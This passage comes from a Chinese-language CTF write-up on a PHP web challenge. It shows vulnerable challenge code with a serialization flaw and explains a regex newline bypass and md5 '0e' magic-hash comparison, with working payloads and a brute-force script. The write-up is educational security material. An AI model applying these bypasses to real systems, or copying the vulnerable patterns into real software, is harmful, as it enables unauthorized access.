 ```php
    else{
        die("no!!!!!!!!");
    }
}
else{
    die('is str1 numeric??????');
}

//3nd
function filter($string){
    return preg_replace('/x/', 'yy', $string);
}

$username = $_POST['username'];

$password = "aaaaa";
$user = array($username, $password);

$r = filter(serialize($user));
if(unserialize($r)[1] == "123456"){
    echo file_get_contents('flag.php');
}
会代码审计嘛23333
```

先解决第一个，主要是绕过正则`preg_match('/^23333$/', $_GET['num'])`这里使用`%0a`换行绕过。第一个`payload`:`num=23333%0a`

然后第二个是`php`的`md5`比较问题，`php`是弱类型语言，这里考虑用`0e`开头后面全为数字的字符串会转换为浮点数来绕过`md5`比对，这里题目有一个字母替换，那么`0e`后面还允许出现`pgnb`四个字母。写一个脚本爆破就好了:

```python
import hashlib

def md5(s):
	return hashlib.md5(s.encode(encoding='UTF-8')).hexdigest()

for i in range(1,999999999):
    flag = 1
    j = md5(str(i))
    if j[0:2] == '0e':
        for z in j[2:]:
            if z not in "0123456789pgnb":
                flag = 0
                break
        if flag == 1:
            print("found md5("+str(i)+")="+j)
```

![ezphp-1](/images/whuctf2020-3.webp)

这里随便挑两个就可以了。第二个`payload`:`str1=11230178&str2=113619666`

还剩下第三个序列化与反序列化的问题:
